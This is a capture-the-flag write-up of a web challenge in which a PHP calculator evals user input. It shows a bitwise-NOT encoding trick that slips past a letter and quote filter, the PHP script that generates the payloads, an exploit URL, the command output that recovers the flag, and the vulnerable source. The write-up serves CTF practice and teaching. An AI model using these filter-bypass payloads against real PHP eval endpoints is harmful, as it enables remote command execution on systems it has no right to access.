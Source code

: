 ## SimpleCalculator

#### Solved by Fluoxetine

```
Some restriction should prevent this simple calculator from being hacked. Right?

61.28.237.24 30101

authors: d0r4, Em0n
```

We are given a web form that allows us to input values and operations to a calculator and the results will be printed.

Some quick experiments reveal that we can not use neither letters nor quotes. The input must also be shorter than 20 characters.

It’s highly likely that the server is doing some sort of `eval` to perform the calculation. We can exploit it to run functions like `exec("ls")`, but we first need to figure out some way to pass strings.

The trick here is to use the bitwise NOT operator. When PHP encounters `~` and a string, it will invert that string. Therefore, we can invert our string, passing it to the calculator along with `~`, and PHP will invert back to the original string :)

Sample payload for `exec("ls -l >a")`: `(~%9A%87%9A%9C)(~%93%8C%DF%D2%93%DF%C1%9E)`

We need to put the string in bracket to make PHP treat it as string. We don't need any quotes because PHP treats unknown constants as strings (e.g. `echo aabbccdd` will print out `aabbccdd` if `aabbccdd` has not been defined as a constant).

Now it's just the matter of choosing which commands to run. The command has the maximum length of 10.

```php
<?php
echo "(~" . urlencode(~"exec") . ")(~" . urlencode(~"ls -l >a") . ")" . "\n";  // (~%9A%87%9A%9C)(~%93%8C%DF%D2%93%DF%C1%9E)
echo "(~" . urlencode(~"exec") . ")(~" . urlencode(~"ls -l />a") . ")" . "\n"; // (~%9A%87%9A%9C)(~%93%8C%DF%D2%93%DF%D0%C1%9E)
echo "(~" . urlencode(~"exec") . ")(~" . urlencode(~"cat /f*>a") . ")" . "\n"; // (~%9A%87%9A%9C)(~%9C%9E%8B%DF%D0%99%D5%C1%9E)
echo "(~" . urlencode(~"exec") . ")(~" . urlencode(~"rm a") . ")" . "\n";      // (~%9A%87%9A%9C)(~%8D%92%DF%9E)
?>
```

Run the payload like this: `http://61.28.237.24:30101/?equation=(~%9A%87%9A%9C)(~%93%8C%DF%D2%93%DF%C1%9E)`

Read `a`: `http://61.28.237.24:30101/a`

Output of `ls -l >a`:

```
total 4
-rw-r--r--. 1 www-data www-data   0 May 24 01:39 a
-rwxrw-r--. 1 www-data root     856 May 18 11:52 index.php
drwxr-xr-x. 1 www-data root      23 May 18 11:52 static
```

Output of `ls -l />a`:

```
total 4
drwxr-xr-x.   1 root root  28 May 12 12:48 bin
drwxr-xr-x.   2 root root   6 Mar 19 23:44 boot
drwxr-xr-x.   5 root root 360 May 23 13:13 dev
drwxr-xr-x.   1 root root  66 May 23 13:13 etc
-rwxrw-r--.   1 root root  25 May 18 11:52 fl4ggggH3reeeeeeeeeee
drwxr-xr-x.   2 root root   6 Mar 19 23:44 home
drwxr-xr-x.   1 root root  21 May 12 12:48 lib
drwxr-xr-x.   2 root root  34 May 11 00:00 lib64
drwxr-xr-x.   2 root root   6 May 11 00:00 media
drwxr-xr-x.   2 root root   6 May 11 00:00 mnt
drwxr-xr-x.   2 root root   6 May 11 00:00 opt
dr-xr-xr-x. 570 root root   0 May 23 13:13 proc
drwx------.   1 root root   6 May 12 13:41 root
drwxr-xr-x.   1 root root  36 May 23 13:13 run
drwxr-xr-x.   1 root root  20 May 12 12:48 sbin
drwxr-xr-x.   2 root root   6 May 11 00:00 srv
dr-xr-xr-x.  13 root root   0 May 11 11:41 sys
drwxrwxrwt.   1 root root   6 May 12 13:41 tmp
drwxr-xr-x.   1 root root  19 May 11 00:00 usr
drwxr-xr-x.   1 root root  17 May 12 12:43 var
```

Output of `cat /f*>a`:

```
HCMUS-CTF{d4ngErous_eVal}
```

For the sake of fun, we can also dump `index.php`:

```php
<?php
echo "(~" . urlencode(~"exec") . ")(~" . urlencode(~"cat i*>a") . ")" . "\n"; // (~%9A%87%9A%9C)(~%9C%9E%8B%DF%96%D5%C1%9E)
echo "(~" . urlencode(~"exec") . ")(~" . urlencode(~"rm a") . ")" . "\n";     // (~%9A%87%9A%9C)(~%8D%92%DF%9E)
?>
```

```php
<?php

    $html = '   <form>
        <label for="equation">Equation: </label>
            <input name="equation" value="13*37">
        <input type="submit">
    </form>
';
    if (isset($_GET["equation"])) {
        $formula = $_GET["equation"];
        if (preg_match_all('/[a-z\'"`]+/i', $formula)) {
            echo "<video controls autoplay><source src='static/video.mp4' type='video/mp4'></video>";
            echo "<h1>Are you trying to hack me? Alphabetic character and quote is not allowed here</h1>";
        }
        else if (strlen($formula) >= 20) {
            echo "<h1>This is just a simple calculator, not WolframAlpha, try a shorter equation</h1>";
        }
        else
        {
            eval('$res = ' . $formula . ';');
            echo isset($res) ? $res : '?';
        }
    }
    else
        echo $html;
?>
```

**Flag:** `HCMUS-CTF{d4ngErous_eVal}`

